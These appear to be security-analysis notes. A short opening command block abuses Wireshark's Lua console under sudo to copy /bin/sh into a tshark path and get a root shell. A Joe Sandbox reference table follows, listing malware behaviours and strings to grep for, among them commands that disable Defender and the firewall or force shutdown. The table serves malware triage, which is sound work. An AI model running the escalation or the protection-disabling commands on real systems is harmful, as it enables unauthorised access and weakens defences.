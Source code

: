 ```
sudo wireshark &
Tools -> Lua Console
os.execute("mkdir -p /user/bin")
os.execute("cp /bin/sh /user/bin/tshark")

sudo /user/bin/tshark
```

# Joe Sandbox
## Start at System Summary  

| Behavior                                                                                   | Search queries / things to grep for in the report                                                                                                                           |                              Joe Sandbox Signature Category |
| ------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------: |
| Attempts to get the victim to disable security protections                                 | `Disable`, `disable-defender`, `DisableAntiSpyware`, `Set-MpPreference -DisableRealtimeMonitoring`, `Stop-Service WinDefend`, `netsh advfirewall set allprofiles state off` | Lowering of HIPS / PFW / Operating System Security Settings |
| Deletes Microsoft Office-related registry keys                                             | `HKLM\\SOFTWARE\\Microsoft\\Office`, `HKCU\\Software\\Microsoft\\Office`, `RegDeleteValue`, `RegDeleteKey`, `NtDeleteKey`                                                   |                       Persistence and Installation Behavior |
| Creates registry keys associated with Microsoft Excel                                      | `Excel`, `Microsoft\\Office\\.*Excel`, `RegCreateKeyEx`, `RegSetValueEx`, `HKCU\\Software\\Microsoft\\Office`                                                               |                       Persistence and Installation Behavior |
| Creates any registry values                                                                | `RegSetValueEx`, `RegSetValue`, `NtSetValueKey`, `reg add`, `Set-ItemProperty`                                                                                              |                       Persistence and Installation Behavior |
| Drops RegAsm virus                                                                         | `regasm.exe`, `RegAsm`, dropped file name contains `regasm`, `CreateFile` -> `%TEMP%\\regasm*.exe`, PE write to disk                                                        |                                                   Spreading |
| Sends signals to force immediate program termination                                       | `TerminateProcess`, `ExitProcess`, `TerminateThread`, `taskkill`, `GenerateConsoleCtrlEvent`                                                                                |                             Malware Analysis System Evasion |
| Malware file is most likely programmed in C or C++                                         | Imports: `msvcrt`, `vcruntime`, `msvcp`, mangled symbols `_Z`, `__cplusplus`, `PE -> compiled with MSVC`                                                                    |                                              System Summary, System Behavior |
| Attempts to detect presence of the Mirai botnet                                            | `mirai`, `TELNET`, `port 23`, `2323`, `brute`, `telnet-scanner`, `high-rate connect attempts`                                                                               |                                                  Networking |
| Attempts to use a keylogger                                                                | `SetWindowsHookEx`, `WH_KEYBOARD_LL`, `GetAsyncKeyState`, `GetKeyState`, files named `keylog`, `WriteFile` to logs                                                          |      Key, Mouse, Clipboard, Microphone and Screen Capturing |
| Attempts to copy clipboard contents                                                        | `OpenClipboard`, `GetClipboardData`, `CF_UNICODETEXT`, `Get-Clipboard`, `OleGetClipboard`                                                                                   |      Key, Mouse, Clipboard, Microphone and Screen Capturing |
| Hooks registry keys or values to maintain persistence via autostart                        | `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`, `RunOnce`, `Winlogon`, `RegSetValueEx` writing to `Run`                                                          |                       Persistence and Installation Behavior |
| Possible Personal Firewall (PFW) or Host-based Intrusion Prevention System (HIPS) evasion  | `AmsiScanBuffer` patch, `EtwEventWrite` tampering, `NtProtectVirtualMemory`, `Unhook`, `IsDebuggerPresent`                                                                  |            HIPS / PFW / Operating System Protection Evasion |
| Executes or interacts with `splwow64.exe` (Windows system component)                       | process name `splwow64.exe`, `OpenProcess`/`CreateProcess` targeting `splwow64.exe`, `WriteProcessMemory` -> `splwow64.exe`                                                 |                                 Remote Access Functionality |
| Drops a portable executable file into `C:\\Windows` (drops only)                           | `CreateFile` / `WriteFile` / `MoveFile` -> `C:\\Windows\\.*\\.exe`, `CopyFile` to `C:\\Windows\\`                                                                           |                                                   Spreading |
| Looks for the name or serial number of a device                                            | `Win32_BIOS`, `SerialNumber`, `GetVolumeInformation`, `GetComputerName`, `DeviceIoControl`, `Model`, `Manufacturer`                                                         |             Language, Device and Operating System Detection |
| Attempts to obscure data (encoding, encryption, obfuscation)                               | `base64`, `Convert.FromBase64String`, `XOR`, `CryptEncrypt`, `BCryptEncrypt`, high-entropy blobs, long `xor` loops                                                          |                                            Data Obfuscation |
| Sends HTTP GET or POST requests without a User-Agent header                                | HTTP requests where `User-Agent:` missing or empty; raw socket `GET / HTTP/1.1` without `User-Agent` header                                                                 |                                                  Networking |
| Uses loops or repeated commands (e.g., pings) to delay execution or evade sandbox analysis | `Sleep(`, `NtDelayExecution`, `ping -n`, repeated `ping`, `for`/`while` loops with `Sleep(5000+)`                                                                           |                             Malware Analysis System Evasion |
| Attempts to override DNS resolution for a specific domain on the local machine             | writes to `C:\\Windows\\System32\\drivers\\etc\\hosts`, `Set-DnsClientServerAddress`, `reg add` DNS entries, `netsh interface ip add dns`                                   |                                                  Networking |
| Possible system shutdown behavior                                                          | `ExitWindowsEx`, `InitiateSystemShutdownEx`, `Shutdown`, `ExitProcess`, `CreateProcess` running `shutdown.exe /s /t 0`                                                      |            HIPS / PFW / Operating System Protection Evasion |

---

